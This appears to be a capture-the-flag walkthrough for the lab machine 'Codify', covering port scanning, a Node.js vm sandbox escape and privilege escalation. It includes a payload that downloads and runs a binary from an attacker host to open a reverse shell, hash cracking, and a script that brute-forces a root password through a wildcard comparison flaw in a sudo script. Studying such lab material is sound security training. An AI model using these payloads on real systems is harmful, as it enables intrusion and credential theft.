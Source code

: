 # Codify - Walkthrough

![TITLE](title.png)

## TARGET : 10.10.11.239
## ATTACKER : OPENVPN IP

## Scanning

`nmap -A -p- -T4 10.10.11.239`

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 96:07:1c:c6:77:3e:07:a0:cc:6f:24:19:74:4d:57:0b (ECDSA)
|_  256 0b:a4:c0:cf:e2:3b:95:ae:f6:f5:df:7d:0c:88:d6:ce (ED25519)
80/tcp   open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://codify.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
3000/tcp open  http    Node.js Express framework
|_http-title: Codify
Service Info: Host: codify.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Website

We need to add `codify.htb` to our `/etc/hosts` file.

![WEBSITE](website.png)

`gobuster dir -u codify.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

![GOBUSTER](gobuster.png)

## Reverse Shell

There is a `editor` page that allows us to run commands in `javascript`. We can use this to get a reverse shell.

```javascript
"use strict";
const vm = require("vm");
const xyz = vm.runInNewContext(`const process = this.constructor.constructor('return this.process')();
process.mainModule.require('child_process').execSync('curl -fsSL http://ATTACKER:13339/termite/ATTACKER:13337 -o /tmp/.FjbUtmYf && chmod +x /tmp/.FjbUtmYf && /tmp/.FjbUtmYf').toString()`);
console.log(xyz);
```

![EDITOR](editor.png)

## Privilege Escalation

With linpeas we can see that there is a interesting file located at `/var/www/contact/tickets.db`, it might contain some credentials.

```
svc@codify:~$ cat /var/www/contact/tickets.db 
�T5��T�format 3@  .WJ
       otableticketsticketsCREATE TABLE tickets (id INTEGER PRIMARY KEY AUTOINCREMENT, name TEXT, topic TEXT, description TEXT, status TEXT)P++Ytablesqlite_sequencesqlite_sequenceCREATE TABLE sqlite_sequence(name,seq)��	tableusersusersCREATE TABLE users (
        id INTEGER PRIMARY KEY AUTOINCREMENT, 
        username TEXT UNIQUE, 
        password TEXT
��G�joshua$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2
��
����ua  users
             ickets
r]r�h%%�Joe WilliamsLocal setup?I use this site lot of the time. Is it possible to set this up locally? Like instead of coming to this site, can I download this and set it up in my own computer? A feature like that would be nice.open� ;�wTom HanksNeed networking modulesI think it would be better if you can implement a way to handle network-based stuff. Would help me out a lot. Thanks!opensvc@codify:~$ 
svc@codify:~$ 
```

We can use `john` to crack the hashed password `$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2` of the user `joshua`.

`john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt`

![JOHN](john.png)

We got the decrypted password `spongebob1`

Now we can login as `joshua` and get the user flag.

```
svc@codify:~$ su joshua
Password:
joshua@codify:/home/svc$ cat user.txt
255187af35a5e4b36149e6f8589d7f07
```

Let's find a way to get `root` access, we can use `sudo -l` to see what commands we can run as `root`.

```bash
joshua@codify:~$ sudo -l
Matching Defaults entries for joshua on codify:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User joshua may run the following commands on codify:
    (root) /opt/scripts/mysql-backup.sh
```

We can see that we can run `/opt/scripts/mysql-backup.sh` as `root`, let's see what it does.

```bash
joshua@codify:~$ sudo /opt/scripts/mysql-backup.sh
Enter MySQL password for root: 
Password confirmation failed!
```

It asks for a password, let's see if we can find it in the filesystem.

```bash
joshua@codify:~$ cat /opt/scripts/mysql-backup.sh
#!/bin/bash
DB_USER="root"
DB_PASS=$(/usr/bin/cat /root/.creds)
BACKUP_DIR="/var/backups/mysql"

read -s -p "Enter MySQL password for $DB_USER: " USER_PASS
/usr/bin/echo

if [[ $DB_PASS == $USER_PASS ]]; then
        /usr/bin/echo "Password confirmed!"
else
        /usr/bin/echo "Password confirmation failed!"
        exit 1
fi

/usr/bin/mkdir -p "$BACKUP_DIR"

databases=$(/usr/bin/mysql -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" -e "SHOW DATABASES;" | /usr/bin/grep -Ev "(Database|information_schema|performance_schema)")

for db in $databases; do
    /usr/bin/echo "Backing up database: $db"
    /usr/bin/mysqldump --force -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" "$db" | /usr/bin/gzip > "$BACKUP_DIR/$db.sql.gz"
done

/usr/bin/echo "All databases backed up successfully!"
/usr/bin/echo "Changing the permissions"
/usr/bin/chown root:sys-adm "$BACKUP_DIR"
/usr/bin/chmod 774 -R "$BACKUP_DIR"
/usr/bin/echo 'Done!'
```

It looks like it's reading the password from `/root/.creds`, let's see if we can brute force it.

```
#!/bin/bash

begin=0
str=""

echo "Result:"
while [ 1 ]; do
    for letter in {A..Z} {a..z} {0..9}; do
        if [ $begin = 0 ]; then
            echo "$letter*"
            res=$(echo "$letter*" | sudo -u root /opt/scripts/mysql-backup.sh)
            val=$?
            if [ $val = 0 ]; then
                echo "confirmed"
                begin=1
                str+=$letter
            fi
        else
            echo "$str$letter*"
            res=$(echo "$str$letter*" | sudo -u root /opt/scripts/mysql-backup.sh)
            val=$?
            if [ $val = 0 ]; then
                str="$str$letter"
                begin=1
            fi
        fi

    done
done
```

This script is going to brute force the password, by trying every possible combination of letters and numbers. It will print the password as soon as it finds it.

finally we get the `root`'s password `kljh12k3jhaskjh12kjh3`

```
joshua@codify:~$ su root
Password: 
root@codify:/home/joshua# cat /root/root.txt 
e0de03bea80bcf9d193fdace2155ed8b
root@codify:/home/joshua# 
```